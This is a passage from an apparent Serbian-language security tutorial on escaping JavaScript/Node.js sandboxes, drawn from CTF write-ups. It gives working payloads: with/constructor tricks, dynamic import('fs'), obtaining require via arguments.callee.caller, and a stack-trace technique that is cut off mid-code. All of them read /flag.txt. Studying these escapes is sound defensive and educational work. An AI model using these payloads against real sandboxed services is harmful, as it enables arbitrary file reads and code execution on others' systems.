 ```javascript
with(this)
with(constructor)
constructor(source)()

// For more uses of with go to challenge misc/CaaSio PSE in
// https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/#misc/CaaSio%20PSE
```

Ako je **sve nedefinisano** pre izvršavanja nepoverljivog koda (kao u [**ovom writeup-u**](https://blog.huli.tw/2022/02/08/en/what-i-learned-from-dicectf-2022/#miscx2fundefined55-solves)), moguće je generisati korisne objekte "iz ničega" kako bi se zloupotrebilo izvršavanje proizvoljnog nepoverljivog koda:

* Korišćenjem import()

```javascript
// although import "fs" doesn’t work, import('fs') does.
import("fs").then(m=>console.log(m.readFileSync("/flag.txt", "utf8")))
```

* Pristupanje `require` indirektno

[Prema ovome](https://stackoverflow.com/questions/28955047/why-does-a-module-level-return-statement-work-in-node-js/28955050#28955050) moduli su omotani od strane Node.js unutar funkcije, kao što je ovo:

```javascript
(function (exports, require, module, __filename, __dirname) {
// our actual module code
});
```

Dakle, ako iz tog modula možemo **pozvati drugu funkciju**, moguće je koristiti `arguments.callee.caller.arguments[1]` iz te funkcije da pristupimo **`require`**:

{% code overflow="wrap" %}
```javascript
(function(){return arguments.callee.caller.arguments[1]("fs").readFileSync("/flag.txt", "utf8")})()
```
{% endcode %}

Na sličan način kao u prethodnom primeru, moguće je **koristiti rukovaoce greškama** da pristupite **omotaču** modula i dobijete funkciju **`require`**:

```javascript
try {
null.f()
} catch (e) {
TypeError = e.constructor
}
Object = {}.constructor
String = ''.constructor
Error = TypeError.prototype.__proto__.constructor
function CustomError() {
const oldStackTrace = Error.prepareStackTrace
try {
Error.prepareStackTrace = (err, structuredStackTrace) => structuredStackTrace
Error.captureStackTrace(this)
this.stack
} finally {
Error.prepareStackTrace = oldStackTrace
}
}
function trigger() {
const err = new CustomError()
console.log(err.stack[0])
for (const x of err.stack) {
// use x.getFunction() to get the upper function, which is the one that Node.js adds a wrapper to, and then use arugments to get the parameter
```